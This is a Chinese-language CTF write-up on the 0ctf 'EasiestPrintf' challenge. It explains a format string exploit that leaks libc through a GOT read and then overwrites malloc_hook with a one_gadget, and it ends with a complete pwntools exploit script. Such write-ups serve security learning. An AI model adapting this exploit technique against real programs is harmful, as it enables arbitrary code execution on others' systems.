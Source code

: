 ```yaml
---
title: 格式化字符串漏洞利用实战之 0ctf-easyprintf
authorId: hac425
tags:
  - format string
categories:
  - ctf
date: 2017-12-17 18:20:00
---
```

### 前言

这是 `0ctf` 的一道比较简单的格式化串的题目。



### 正文


逻辑非常简单

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513506132721kaldyhzb.png?imageslim)

`do_read` 可以打印内存地址的数据，可用来 泄露 `got`.

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513506205821m9i5ym56.png?imageslim)

`leave` 格式化字符串漏洞。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513506227980602voj1w.png?imageslim)

`printf(s)` 直接调用 `exit` 退出了。不过可以使用 `%1000c` 触发 `printf` 里面的 `malloc` 和 `free`, 所以思路很清楚了，修改 `free_hook` 或者 `malloc_hook` 为 `one_gadget`, 并且在格式化串末尾加上 `%1000c`触发 `malloc` 和 `free`


![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513506399803fdtgne0f.png?imageslim)

### 最后
最开始修改 `free_hook`, 发现所有的 `one_gadget` 都不能用，后面使用了 `malloc_hook` ，终于找到一个可以用的，估计和寄存器的数据有关。


exp:

```
from pwn import *
context(os='linux',log_level='debug')


p = process("./EasiestPrintf")

# gdb.attach(p, '''

# c

# 	''')

setvbuf_got = 0x08049FF0 
exit_got = 0x08049FE4

pause()
p.sendline(str(setvbuf_got))
p.recvuntil("Which address you wanna read:\n")
setvbuf_addr = int(p.recv(len('0xf7e60360')), 16)
libc_addr = setvbuf_addr - 0x60360
free_hook = libc_addr + 0x1b38b0
malloc_hook = libc_addr + 0x1b2768
one_gadget = libc_addr + 0x3ac69
log.info("free_hook: " + hex(free_hook))
log.info("one_gadget: " + hex(one_gadget))
pause()

payload = fmtstr_payload(7, {malloc_hook: one_gadget})  
payload +=  "%100000c"

p.sendline(payload)
p.interactive()

```
















